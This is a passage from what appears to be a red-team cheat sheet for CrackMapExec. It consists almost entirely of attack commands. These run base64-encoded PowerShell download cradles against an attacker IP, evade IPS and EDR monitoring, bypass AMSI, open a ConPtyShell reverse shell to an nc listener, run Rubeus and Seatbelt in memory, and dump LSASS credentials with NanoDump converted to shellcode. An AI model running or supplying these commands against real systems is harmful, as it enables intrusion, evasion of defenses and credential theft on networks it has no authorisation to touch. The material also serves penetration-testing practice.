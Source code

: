 Execute a PowerShell command using base64 encoding on-the-fly:

```
$ cme smb 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -x "powershell -enc `echo -n 'iex(new-object net.webclient).downloadstring("http://10.10.13.37/amsi.ps1");iex(new-object net.webclient).downloadstring("http://10.10.13.37/cradle.ps1")' | iconv -t UTF-16LE | base64 -w0`"
```

Bypass network IPS restrictions:

```
$ sudo nmap -n -sn 192.168.1.0/24 | grep for | awk '{print $5}' > 192.168.1
$ for ip in `cat 192.168.1`; do cme smb $ip; sleep 1; done
Or
$ cme -t 1 --jitter 1 smb 192.168.1.0/24
```


#### Custom Switches

Bypass execution restrictions of EDRs monitoring for `WmiPrvSE.exe` misbehavior with custom switches (see [dotnetassembly](https://github.com/snovvcrash/CrackMapExec/tree/dotnetassembly) branch).

Get the dependencies and stuff:

```
$ sudo apt install mono-devel
$ git clone --single-branch -b syscalls https://github.com/S4ntiagoP/donut ~/tools/donut && cd ~/tools/donut && make && sudo ln -sv `realpath donut` /usr/local/bin/donut && cd -
$ wget https://github.com/snovvcrash/CrackMapExec/raw/dotnetassembly/cme/data/donut_template.cs -O ~/.cme/donut_template.cs
$ wget https://github.com/snovvcrash/CrackMapExec/raw/dotnetassembly/cme/protocols/smb.py -O ~/.local/pipx/venvs/crackmapexec/lib/python3.10/site-packages/cme/protocols/smb.py
```

Example of invoking a PowerShell module ([ConPtyShell](https://github.com/antonioCoco/ConPtyShell)):

```
$ stty raw -echo; (stty size; cat) | nc -lvnp 1337
$ cme smb 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -x 'Invoke-ConPtyShell.ps1 Invoke-ConPtyShell 10.10.13.37 1337' --amsi-bypass amsi.ps1 --no-output
```

Example of executing a .NET assembly ([Rubeus](https://github.com/GhostPack/Rubeus)):

```
$ cme smb 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -x 'Seatbelt.exe -group=user' --dotnetassembly --dotnetassembly-entrypoint 'Rubeus,Program,MainString' --dotnetassembly-entrypoint-argtype string --amsi-bypass amsi.ps1 --codec cp866
```

Example of converting an unmanaged binary ([NanoDump](https://github.com/helpsystems/nanodump)) to a shellcode with [donut](https://github.com/S4ntiagoP/donut/tree/syscalls), then compiling a .NET self-injector from a template with the shellcode inside and executing it (see [SharpBin2SelfInject](https://gist.github.com/snovvcrash/30bd25b1a5a18d8bb7ce3bb8dc2bae37)):

```
$ cme smb 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -x 'nanodump.exe -w C:\Windows\Temp\lsass.bin' --dotnetassembly --donut
```
